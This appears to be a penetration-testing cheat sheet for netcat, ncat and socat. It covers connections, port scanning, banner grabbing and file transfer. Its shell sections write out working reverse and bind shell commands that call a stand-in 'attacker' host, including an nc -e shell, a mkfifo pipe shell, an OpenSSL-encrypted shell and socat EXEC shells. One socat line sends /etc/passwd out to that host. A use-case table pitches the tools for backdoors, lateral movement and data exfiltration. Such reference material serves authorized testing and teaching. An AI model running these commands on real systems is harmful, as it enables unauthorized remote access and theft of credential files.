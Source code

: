 # Netcat - The Network Swiss Army Knife

Versatile network utility for reading from and writing to network connections using TCP or UDP protocols.

## Overview

Netcat (nc) is an essential penetration testing tool that can create arbitrary TCP and UDP connections, listen for inbound connections, perform port scanning, and transfer files. It's often called the "network Swiss Army knife" due to its versatility.

## Basic Usage

| Command | Description | Example |
|---------|-------------|---------|
| `nc host port` | Connect to host on port | `nc 192.168.1.100 80` |
| `nc -l port` | Listen on port | `nc -l 4444` |
| `nc -u host port` | UDP connection | `nc -u 192.168.1.100 53` |
| `nc -z host port` | Port scanning | `nc -z 192.168.1.100 80` |
| `nc -v host port` | Verbose output | `nc -v 192.168.1.100 22` |

## Reverse and Bind Shells

### Creating Shells

| Type | Listener Command | Target Command |
|------|------------------|----------------|
| **Bind Shell** | `nc target 4444` | `nc -l 4444 -e /bin/bash` |
| **Reverse Shell** | `nc -l 4444` | `nc attacker 4444 -e /bin/bash` |
| **Windows Bind** | `nc target 4444` | `nc -l 4444 -e cmd.exe` |
| **Windows Reverse** | `nc -l 4444` | `nc attacker 4444 -e cmd.exe` |

### Advanced Shell Techniques

```bash
# Reverse shell without -e flag
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc attacker 4444 > /tmp/f

# Encrypted shell with OpenSSL
# Listener: openssl s_server -quiet -key key.pem -cert cert.pem -port 4444
# Target: mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect attacker:4444 > /tmp/s
```

## File Transfer

| Operation | Sender Command | Receiver Command |
|-----------|----------------|------------------|
| **Send file** | `nc -l 4444 < file.txt` | `nc sender 4444 > file.txt` |
| **Receive file** | `nc -l 4444 > received.txt` | `nc receiver 4444 < file.txt` |
| **Directory transfer** | `tar -czf - /path \| nc -l 4444` | `nc sender 4444 \| tar -xzf -` |

## Port Scanning

| Command | Description | Example |
|---------|-------------|---------|
| `nc -z host port-range` | Scan port range | `nc -z 192.168.1.100 20-25` |
| `nc -zv host port-range` | Verbose port scan | `nc -zv 192.168.1.100 1-1000` |
| `nc -zu host port` | UDP port scan | `nc -zu 192.168.1.100 161` |

## Banner Grabbing

| Service | Command | Purpose |
|---------|---------|---------|
| **HTTP** | `echo "GET / HTTP/1.0\n" \| nc host 80` | Web server info |
| **FTP** | `nc host 21` | FTP banner |
| **SSH** | `nc host 22` | SSH version |
| **SMTP** | `nc host 25` | Mail server info |

## Netcat Variants

### Traditional Netcat

```bash
# Original netcat (limited features)
nc -l -p 4444
```

### Netcat with OpenBSD

```bash
# Modern netcat (more features)
nc -l 4444
```

### Ncat (Nmap's netcat)

| Command | Description | Example |
|---------|-------------|---------|
| `ncat -l 4444 --ssl` | SSL/TLS listener | `ncat -l 4444 --ssl` |
| `ncat --exec /bin/bash -l 4444` | Execute command on connect | `ncat --exec /bin/bash -l 4444` |
| `ncat --broker -l 4444` | Multi-client broker mode | `ncat --broker -l 4444` |

## Socat - Extended Netcat

### Basic Socat Usage

| Command | Description |
|---------|-------------|
| `socat TCP-L:4444 EXEC:/bin/bash` | Bind shell with socat |
| `socat TCP:attacker:4444 EXEC:/bin/bash` | Reverse shell with socat |
| `socat OPENSSL-LISTEN:4444,cert=cert.pem TCP:target:22` | SSL proxy |
| `socat FILE:/etc/passwd TCP:attacker:4444` | Send file via socat |

## Security Considerations

- Netcat connections are unencrypted by default
- Be aware that shells created may lack proper TTY
- Always test in authorized environments only
- Monitor network traffic when using netcat
- Use encrypted alternatives (ncat with SSL, socat with OpenSSL) when possible

## Penetration Testing Use Cases

| Scenario | Application |
|----------|-------------|
| **Post-exploitation** | Establish persistent backdoor |
| **Lateral movement** | Pivot through compromised systems |
| **Data exfiltration** | Transfer sensitive files |
| **Service enumeration** | Banner grabbing and fingerprinting |
| **Payload delivery** | Download additional tools/exploits |

## Additional Resources

- [Netcat Official Documentation](http://netcat.sourceforge.net/)
- [Ncat Reference Guide](https://nmap.org/ncat/)
- [Socat Manual](http://www.dest-unreach.org/socat/doc/socat.html)
